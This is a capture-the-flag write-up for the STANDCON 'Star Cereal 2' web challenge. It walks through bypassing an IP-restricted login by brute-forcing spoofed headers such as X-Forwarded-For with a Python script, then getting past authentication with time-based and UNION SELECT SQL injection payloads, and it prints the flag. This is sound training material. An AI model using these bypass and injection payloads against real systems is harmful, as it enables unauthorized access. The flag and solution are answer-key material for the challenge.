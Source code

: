 ```yaml
---
title: STANDCON CTF - Star Cereal 2
date: 2021-08-02 17:19:00 +0800
categories: [ctf]
tags: [web, php, sqli]
image:
    path: /assets/images/cereal2_1.jpg
---
```


# Description

> Ha, that was sneaky! But I've patched the login so that people like you can't gain access anymore. Stop hacking us!
> 
> `http://20.198.209.142:55045`
> 
> _The flag is in the flag format: STC{...}_
> 
> **Author: zeyu2001**

# Solution

![](/assets/images/cereal2_1.jpg)

The page doesn't much different from `Star Cereal 1`, but when we click on `Login` or browse to `/login.php`, we get a `403 Forbidden` response.

![](/assets/images/cereal2_2.jpg)

Back on the home page, there were some comments from the developer:

```html
<!--
Star Cereal page by zeyu2001

TODO:
	1) URGENT - fix login vulnerability by disallowing external logins (done)
	2) Integrate admin console currently hosted at http://172.16.2.155
-->
```

Based on this, we guessed that the login page can only be viewed when accessing from a specific private IP range (`172.16.2.0/24`), but when we are browsing this page, we are actually accessing from a public IP! In order to trick the web server, we could inject some `HTTP` headers into our requests. We managed to get a list from this [repo](https://github.com/intrudir/403fuzzer/blob/master/header_payloads.txt) and stripped some irrelevant headers and the hardcoded IP addresses:

```
Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url
```

We then used `Python` to brute force the `HTTP` headers while testing all the possible IP addresses in the `172.16.2.0/24` range.   

```python
headers = """Client-IP
Proxy-Host
Real-Ip
Referer
Referrer
Refferer
X-Client-IP
X-Custom-IP-Authorization
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded-Scheme
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded
X-Forwarder-For
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Original-Remote-Addr
X-Original-Url
X-Originating-IP
X-Proxy-Url
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Rewrite-Url
X-True-IP
X-Override-Url""".split("\n")

import sys
import request

for header in headers:
    for a in range(256):
        ip = f"172.16.2.{a}"
        r = requests.get("http://20.198.209.142:55045/login.php", headers = {header: ip})
        if r.status_code != 403:
            print(f"{header}: {ip}")
            sys.exit(0)
```

After a while, we see that we were able to bypass the `403 Forbidden` using the following `HTTP` header and value.  

```
X-Forwarded-For: 172.16.2.24
```

To inject the `HTTP` header into our browser, we used this [Firefox extension](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/).

![](/assets/images/cereal2_3.jpg)

Browsing to `/login.php`, we see a familiar login page:

![](/assets/images/cereal2_4.jpg)

This time there was no `MFA` field, so we guessed that it no longer had the insecure deserialization vulnerability and we focused on testing for other classes of web vulnerabilities.

We were able to deduce it was vulnerable to SQL injection when we submitted `' union select sleep(5),null ;-- ` (Note there is a trailing space character) into the password field:

```
email=asd%40asd.com&pass='%20union%20select%20sleep(5)%2cnull%20%3b--%20
```

Which caused the page to hang for 5 seconds before sending a response! 

We also noted that the basic `' or 1=1;-- ` did not work, possibly because the table we are querying from may have been empty. To overcome this, we could utilise the `UNION SELECT` to inject a row into query results by submitting `' union select "asd@asd.com", "password" ;-- `. This would result in the following query to run:

```sql
SELECT email, password FROM admins UNION SELECT "asd@asd.com", "password" ;--
```

Which will definitely return at least one row and bypass the authentication to allow us to get the flag!

![](/assets/images/cereal2_5.jpg)

# Flag
`STC{w0w_you'r3_r3lly_a_l33t_h4x0r_bc1d4611be52117c9a8bb99bf572d6a7}`
